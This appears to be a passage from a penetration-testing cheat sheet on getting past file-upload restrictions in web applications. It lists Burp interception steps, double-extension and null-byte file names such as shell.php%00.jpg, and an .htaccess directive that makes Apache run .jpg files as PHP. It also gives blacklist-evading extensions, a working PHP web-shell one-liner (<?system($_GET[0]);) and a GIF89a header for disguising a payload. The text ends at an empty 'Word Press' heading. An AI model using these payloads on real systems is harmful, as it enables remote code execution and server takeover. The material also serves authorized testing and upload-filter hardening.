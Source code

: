		&
	
## Bypassing File Uploads

	# Bypass client side checking
	Submit Request through burp and change file extension with intercept from .jpg back to .php

	# Double Extension Injection
	shell.jpg.php

	# Invalid Extension Bypass
	shell.php.fake
	
	#Bypass Content-Type Verification
	Intercept in burp and change Content-Type to image/gif, image/jpg, or image/png

	# Null byte Injection
	shell.php%00.jpg

	Or edit the hex in the request in burp to 00

	# Upload .htaccess
	# Example .htaccess contains: AddType application/x-httpd-php .jpg
	# This instructs Apache to run .jpg files as php, then upload malicious jpg

	# Bypass blacklists
	PHP, pHp, PhP, pHP, php3, php4, php5, php7, phtml, etc

	# Content Length Bypass
	Use a small payload: <?system($_GET[0]);
	Or fill file with lots of junk 

	# Image Header in File
	GIF89a; 
	<?php INSERT PAYLOAD ?>


## Word Press
